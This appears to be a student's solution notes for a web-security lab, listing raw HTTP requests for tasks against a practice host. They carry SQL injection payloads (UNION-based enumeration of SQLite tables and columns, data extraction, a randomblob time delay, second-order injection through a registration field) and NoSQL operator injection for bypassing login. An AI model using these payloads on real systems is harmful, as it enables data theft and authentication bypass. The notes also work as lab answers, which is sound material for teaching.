 ### Task 1:
Get the DBMS: 
- GET /api/a3/sql_injection/all_orders?status=5' UNION SELECT null,version(),null,null,null -- 
- GET /api/a3/sql_injection/all_orders?status=5%27%20UNION%20SELECT%20null%2Cversion()%2Cnull%2Cnull%2Cnull%20%2D%2D 
Enumerate tables: 
- GET /api/a3/sql_injection/all_orders?status=cancelled' UNION SELECT NULL,name,NULL,NULL,NULL,FROM sqlite_master WHERE type='table' -- HTTP/1.1
- GET /api/a3/sql_injection/all_orders?status=cancelled%27%20UNION%20SELECT%20NULL%2Cname%2CNULL%2CNULL%2CNULL%20FROM%20sqlite_master%20WHERE%20type%3D%27table%27%20%2D%2D HTTP/1.1

### Task 2:
Enumerate columns from a specific table:
- GET /api/a3/sql_injection/all_orders?status=penfgfgding' UNION SELECT NULL,name,NULL,NULL,NULL FROM pragma_table_info('Orders') -- HTTP/1.1
- GET /api/a3/sql_injection/all_orders?status=penfgfgding%27%20UNION%20SELECT%20NULL%2Cname%2CNULL%2CNULL%2CNULL%20FROM%20pragma_table_info%28%27Orders%27%29%20-- HTTP/1.1
Extract data from a specific table:
- GET /api/a3/sql_injection/all_orders?status=peghnding%27%20UNION%20SELECT%20id%2Cvalue%2Cnull%2Cname%2Cnull%20FROM%20not_me%20%2D%2D HTTP/1.1
- GET /api/a3/sql_injection/all_orders?status=peghnding' UNION SELECT id,value,null,name,null FROM not_me -- HTTP/1.1

include columns from a table in question. And exact amount of columns from the original query

### Task 3
Get a delayed response: 
- GET /api/a3/sql_injection/all_orders?status=pending' AND 1=randomblob(100000000) -- HTTP/1.1
- GET /api/a3/sql_injection/all_orders?status=pending%27%20AND%201%3Drandomblob%28100000000%29%20%2D%2D HTTP/1.1

### Task 4: 

Intercept any request and send to repeater. Edit the request. Make sure to use http on port 80. 

POST /api/a3/sql_injection/second_order/register HTTP/1.1
Host: web0x01.hbtn
Content-Type: application/json
Content-Length: 65

{"username": "yosri", "name": "Yosri", "password": "password123"}

POST /api/a3/sql_injection/second_order/register HTTP/1.1
Host: web0x01.hbtn
Content-Type: application/json
Content-Length: 97

{"username": "scottyscott6", "name": "ScottyScott' AND {{ FLAG }} --", "password": "password123"}


POST /api/a3/sql_injection/second_order/login HTTP/1.1
Host: web0x01.hbtn
Content-Type: application/json
Content-Length: 56

{"username":  "scottyscott6", "password": "password123"}


### Task 6


POST /api/a3/nosql_injection/sign_in HTTP/1.1
Host: web0x01.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://web0x01.hbtn/a3/nosql_injection/
content-type: application/json
Content-Length: 58
Origin: http://web0x01.hbtn
Connection: close
Cookie: session=flsDprGUrMIzTGtbI4U0nwq8uToKw3ZTbPlzi9J2Tmo.6OAsWb3t0LSaEqUddiuEjDSjY1o

{
"username":   {"$ne":null},
"password":{"$ne":null}
}



### Task 7 
POST /api/a3/nosql_injection/sign_in HTTP/1.1
Host: web0x01.hbtn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://web0x01.hbtn/a3/nosql_injection/
content-type: application/json
Content-Length: 61
Origin: http://web0x01.hbtn
Connection: close
Cookie: session=flsDprGUrMIzTGtbI4U0nwq8uToKw3ZTbPlzi9J2Tmo.6OAsWb3t0LSaEqUddiuEjDSjY1o

{
"username":   {"$regex":"^e"},
"password":{"$ne":null}
}


